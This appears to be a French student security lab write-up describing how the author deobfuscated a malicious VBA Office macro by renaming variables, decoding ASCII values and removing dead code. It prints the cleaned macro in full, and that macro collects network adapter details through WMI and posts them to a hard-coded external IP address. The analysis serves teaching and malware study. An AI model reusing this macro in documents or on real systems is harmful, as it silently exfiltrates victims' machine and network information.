 # TP sécu déofusquage

## Étape 1 : Déofusquer le code 

**1 Changer le nom des variables, fonction, etc...**

La première sous-étape que j'ai effectuer pour pouvoir déofusquer le code et qui me permettra par extension d'y voir plus clair dans le code, s'est de changer le nom dans premier temps le nom des variables comme par exemple "Dim uuu As Long" qui devient dans mon code "Dim var8 As Long" : 
```=macro
Dim uuu As Long --> Dim var8 As Long
```

Ensuite dans la deuxième sous-étape s'est de changer le nom des fonctions comme par exemple "Dim mWDaeVN()" qui devient dans mon code "Dim function1()" : 
```=macro
Dim mWDaeVN() --> Dim function1()
```

Ensuite dans la troisième sous-étape s'est de changer les valeurs ascii par ce dont elles correspondent par exemple : 
```=macro
Chr(56) --> Chr(8)
Chr(Int("&H56")) --> Chr(Int("V"))
```

**"56"** correspondant à **"8"** dans la table ascii (décimal) et **"&H56"** correspondant à **"V"** dans la table ascii (hexadécimal)

Puis toujours dans la troisième sous-étape on vois que certain **"Debug.Print"** ne sert à rien donc on peut les enlever pour avoir un code encore plus lisible, ce qui nous permet de supprimer **"Sub"** qui ne servent à rien qui sont **"Sub opop()"** qui retourne le mot **"hi"** et **"Sub fizf()"** qui retourne **"yolo_yolo"**.

Ensuite dans la quatrième sous-étape on peut enlever certaine fonction qui ne servent à rien et/ou changer la chaîne de caractère entre parenthèse si on la connait. Comme par exemple toutes les **"public function"** qui ne servent à rien car le seul **"Sub"** qui est intéressant dans le code c'est **"Sub WMI()"**.

## Étape 2 : Comprendre et expliquer le code 

Quand on a fait toutes les sous-étapes précédente on peut voir et comprendre que de base la macro a été coder de sorte à ce que en gros il fasse un **"ipconfig /all"**, car la macro permet de récupérer nos cartes réseaux, leur configuration, les ports ouverts, le nom de notre PC, l'IP public du PC, son adresse MAC, etc... .

```=macro
Sub WMI()
sWQL = "Select * From Win32_NetworkAdapterConfiguration"
Set var_01 = GetObject("winmgmts:root/CIMV2")
Set var_02 = var_01.ExecQuery(sWQL)
Set var_03 = CreateObject("MSXML2.ServerXMLHTTP")
Url = "http://176.31.120.218:5000/thisis"
Debug.Print Url
For Each oWMIObjEx In var_02
If Not IsNull(oWMIObjEx.IPAddress) Then
Debug.Print "IP:"; oWMIObjEx.IPAddress(0)
var_03.Open "POST", Url, True
var_03.setRequestHeader "User-Agent", "Opera/9.34 (X11; Linux i686; en-US) Presto/2.9.340 Version/11.00"
var_03.send oWMIObjEx.IPAddress(0)
Debug.Print "Host name:"; oWMIObjEx.DNSHostName
For Each oWMIProp In oWMIObjEx.Properties_
If IsArray(oWMIProp.Value) Then
For n = LBound(oWMIProp.Value) To UBound(oWMIProp.Value)
Debug.Print oWMIProp.Name & "()", oWMIProp.Value(n)
var_03.Open "POST", Url, True
var_03.setRequestHeader "User-Agent", "Opera/9.34 (X11; Linux i686; en-US) Presto/2.9.340 Version/11.00"
var_03.send oWMIProp.Value(n)
Next
Else
Debug.Print oWMIProp.Name, oWMIProp.Value
var_03.Open "POST", Url, True
var_03.setRequestHeader "User-Agent", "Opera/9.34 (X11; Linux i686; en-US) Presto/2.9.340 Version/11.00"
var_03.send oWMIProp.Value
End If
Next
End If
Next
End Sub
```

Ce qui prouve que si on ne fait pas attention une macro ofusquer peut faire beaucoup de chose dangereuse (selon les goûts de la personne qui la fait) juste en ouvrant le fichier (ou autre) dans laquelle est contenu la macro ofusquer.